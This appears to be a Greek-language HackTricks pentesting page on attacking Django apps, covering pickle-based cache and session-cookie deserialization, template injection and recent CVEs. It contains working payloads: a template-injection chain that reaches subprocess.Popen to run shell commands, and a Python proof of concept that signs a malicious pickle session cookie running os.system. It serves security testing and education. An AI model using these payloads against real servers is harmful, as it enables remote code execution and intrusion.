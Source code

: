 # Django

{{#include /src/banners/hacktricks-training.md}}

## Cache Manipulation to RCE
Η προεπιλεγμένη μέθοδος αποθήκευσης cache του Django είναι [Python pickles](https://docs.python.org/3/library/pickle.html), η οποία μπορεί να οδηγήσει σε RCE αν [μη αξιόπιστα δεδομένα αποσυμπιεστούν](https://media.blackhat.com/bh-us-11/Slaviero/BH_US_11_Slaviero_Sour_Pickles_Slides.pdf). **Αν ένας επιτιθέμενος μπορέσει να αποκτήσει δικαιώματα εγγραφής στην cache, μπορεί να κλιμακώσει αυτήν την ευπάθεια σε RCE στον υποκείμενο διακομιστή**.

Η cache του Django αποθηκεύεται σε μία από τέσσερις τοποθεσίες: [Redis](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/redis.py#L12), [μνήμη](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/locmem.py#L16), [αρχεία](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/filebased.py#L16), ή μια [βάση δεδομένων](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/db.py#L95). Η cache που αποθηκεύεται σε διακομιστή Redis ή βάση δεδομένων είναι οι πιο πιθανές διαδρομές επίθεσης (Redis injection και SQL injection), αλλά ένας επιτιθέμενος μπορεί επίσης να είναι σε θέση να χρησιμοποιήσει την cache βασισμένη σε αρχεία για να μετατρέψει μια αυθαίρετη εγγραφή σε RCE. Οι συντηρητές έχουν χαρακτηρίσει αυτό ως μη ζήτημα. Είναι σημαντικό να σημειωθεί ότι ο φάκελος αρχείων cache, το όνομα πίνακα SQL και οι λεπτομέρειες του διακομιστή Redis θα διαφέρουν ανάλογα με την υλοποίηση.

Αυτή η αναφορά του HackerOne παρέχει ένα εξαιρετικό, αναπαραγώγιμο παράδειγμα εκμετάλλευσης της cache του Django που αποθηκεύεται σε μια βάση δεδομένων SQLite: https://hackerone.com/reports/1415436

---

## Server-Side Template Injection (SSTI)
Η Γλώσσα Προτύπων Django (DTL) είναι **Turing-complete**. Αν τα δεδομένα που παρέχονται από τον χρήστη αποδοθούν ως *template string* (για παράδειγμα καλώντας `Template(user_input).render()` ή όταν το `|safe`/`format_html()` αφαιρεί την αυτόματη απόδραση), ένας επιτιθέμενος μπορεί να επιτύχει πλήρη SSTI → RCE.

### Detection
1. Αναζητήστε δυναμικές κλήσεις σε `Template()` / `Engine.from_string()` / `render_to_string()` που περιλαμβάνουν *οποιαδήποτε* μη απολυμασμένα δεδομένα αιτήματος.
2. Στείλτε ένα payload βασισμένο σε χρόνο ή αριθμητικό:
```django
{{7*7}}
```
Αν η αποδοθείσα έξοδος περιέχει `49`, η είσοδος έχει μεταγλωττιστεί από τον μηχανισμό προτύπων.

### Primitive to RCE
Ο Django αποκλείει την άμεση πρόσβαση στο `__import__`, αλλά το γραφικό αντικειμένων Python είναι προσβάσιμο:
```django
{{''.__class__.mro()[1].__subclasses__()}}
```
Βρείτε τον δείκτη του `subprocess.Popen` (≈400–500 ανάλογα με την έκδοση του Python) και εκτελέστε αυθαίρετες εντολές:
```django
{{''.__class__.mro()[1].__subclasses__()[438]('id',shell=True,stdout=-1).communicate()[0]}}
```
Ένα πιο ασφαλές καθολικό εργαλείο είναι να επαναλαμβάνετε μέχρι `cls.__name__ == 'Popen'`.

Το ίδιο εργαλείο λειτουργεί για τις δυνατότητες απόδοσης προτύπων **Debug Toolbar** ή **Django-CMS** που χειρίζονται λανθασμένα την είσοδο του χρήστη.

---

## RCE με Cookie Συνεδρίας Βασισμένο σε Pickle
Εάν η ρύθμιση `SESSION_SERIALIZER = 'django.contrib.sessions.serializers.PickleSerializer'` είναι ενεργοποιημένη (ή ένας προσαρμοσμένος σειριαστής που αποσυμπιέζει pickle), το Django *αποκρυπτογραφεί και αποσυμπιέζει* το cookie συνεδρίας **πριν** καλέσει οποιονδήποτε κωδικό προβολής. Επομένως, η κατοχή ενός έγκυρου κλειδιού υπογραφής (το `SECRET_KEY` του έργου από προεπιλογή) είναι αρκετή για άμεση απομακρυσμένη εκτέλεση κώδικα.

### Απαιτήσεις Εκμετάλλευσης
* Ο διακομιστής χρησιμοποιεί `PickleSerializer`.
* Ο επιτιθέμενος γνωρίζει / μπορεί να μαντέψει το `settings.SECRET_KEY` (διαρροές μέσω GitHub, `.env`, σελίδες σφαλμάτων κ.λπ.).

### Απόδειξη της Έννοιας
```python
#!/usr/bin/env python3
from django.contrib.sessions.serializers import PickleSerializer
from django.core import signing
import os, base64

class RCE(object):
def __reduce__(self):
return (os.system, ("id > /tmp/pwned",))

mal = signing.dumps(RCE(), key=b'SECRET_KEY_HERE', serializer=PickleSerializer)
print(f"sessionid={mal}")
```
Στείλτε το αποτέλεσμα cookie, και το payload εκτελείται με τις άδειες του WSGI worker.

**Μειώσεις**: Διατηρήστε τον προεπιλεγμένο `JSONSerializer`, περιστρέψτε το `SECRET_KEY`, και ρυθμίστε το `SESSION_COOKIE_HTTPONLY`.

---

## Πρόσφατα (2023-2025) Υψηλής Επίδρασης Django CVEs που πρέπει να ελέγξουν οι Pentesters
* **CVE-2025-48432** – *Εισαγωγή καταγραφών μέσω μη διαφυλαγμένου `request.path`* (διορθώθηκε 4 Ιουνίου 2025). Επιτρέπει στους επιτιθέμενους να μεταφέρουν νέες γραμμές/κωδικούς ANSI σε αρχεία καταγραφής και να δηλητηριάσουν την ανάλυση καταγραφών. Επίπεδο patch ≥ 4.2.22 / 5.1.10 / 5.2.2.
* **CVE-2024-42005** – *Κρίσιμη SQL injection* στο `QuerySet.values()/values_list()` στο `JSONField` (CVSS 9.8). Δημιουργήστε JSON κλειδιά για να σπάσετε την παράθεση και να εκτελέσετε αυθαίρετη SQL. Διορθώθηκε στην 4.2.15 / 5.0.8.

Πάντα να αναγνωρίζετε την ακριβή έκδοση του framework μέσω της σελίδας σφάλματος `X-Frame-Options` ή του hash του `/static/admin/css/base.css` και να δοκιμάζετε τα παραπάνω όπου είναι εφαρμόσιμο.

---

## Αναφορές
* Ασφαλής έκδοση Django – "Django 5.2.2, 5.1.10, 4.2.22 αντιμετωπίζουν το CVE-2025-48432" – 4 Ιουνίου 2025.
* OP-Innovate: "Η Django κυκλοφορεί ενημερώσεις ασφαλείας για να αντιμετωπίσει την αδυναμία SQL injection CVE-2024-42005" – 11 Αυγούστου 2024.

{{#include /src/banners/hacktricks-training.md}}
